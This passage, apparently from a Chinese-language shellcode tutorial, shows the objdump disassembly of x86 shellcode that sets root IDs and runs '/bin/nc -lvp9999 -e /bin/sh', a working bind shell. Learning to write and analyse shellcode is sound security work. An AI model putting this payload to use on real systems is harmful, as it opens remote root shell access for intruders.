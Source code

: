 然后再用objdump反汇编

```
root@MINDZSEC:~# objdump -d ntcat.o
```

得到



```
ntcat.o:     file format elf32-i386
Disassembly of section .text:
00000000 &lt;shellcode-0x2&gt;:
0:eb 35                jmp    37 &lt;todo&gt;
00000002 &lt;shellcode&gt;:
2:31 c0                xor    %eax,%eax
4:31 db                xor    %ebx,%ebx
6:31 c9                xor    %ecx,%ecx
8:99                   cltd   
9:b0 a4                mov    $0xa4,%al
b:cd 80                int    $0x80
d:5e                   pop    %esi
e:31 c0                xor    %eax,%eax
10:88 46 07             mov    %al,0x7(%esi)
13:88 46 10             mov    %al,0x10(%esi)
16:88 46 1a             mov    %al,0x1a(%esi)
19:89 76 1b             mov    %esi,0x1b(%esi)
1c:8d 5e 08             lea    0x8(%esi),%ebx
1f:89 5e 1f             mov    %ebx,0x1f(%esi)
22:8d 5e 11             lea    0x11(%esi),%ebx
25:89 5e 23             mov    %ebx,0x23(%esi)
28:89 46 27             mov    %eax,0x27(%esi)
2b:b0 0b                mov    $0xb,%al
2d:89 f3                mov    %esi,%ebx
2f:8d 4e 1b             lea    0x1b(%esi),%ecx
32:8d 56 27             lea    0x27(%esi),%edx
35:cd 80                int    $0x80
00000037 &lt;todo&gt;:
37:e8 c6 ff ff ff       call   2 &lt;shellcode&gt;
3c:2f                   das    
3d:62 69 6e             bound  %ebp,0x6e(%ecx)
40:2f                   das    
41:6e                   outsb  %ds:(%esi),(%dx)
42:63 23                arpl   %sp,(%ebx)
44:2d 6c 76 70 39       sub    $0x3970766c,%eax
49:39 39                cmp    %edi,(%ecx)
4b:39 23                cmp    %esp,(%ebx)
4d:2d 65 2f 62 69       sub    $0x69622f65,%eax
52:6e                   outsb  %ds:(%esi),(%dx)
53:2f                   das    
54:73 68                jae    be &lt;todo+0x87&gt;
56:23 41 41             and    0x41(%ecx),%eax
59:41                   inc    %ecx
5a:41                   inc    %ecx
5b:42                   inc    %edx
5c:42                   inc    %edx
5d:42                   inc    %edx
5e:42                   inc    %edx
5f:43                   inc    %ebx
60:43                   inc    %ebx
61:43                   inc    %ebx
62:43                   inc    %ebx
63:44                   inc    %esp
64:44                   inc    %esp
65:44                   inc    %esp
```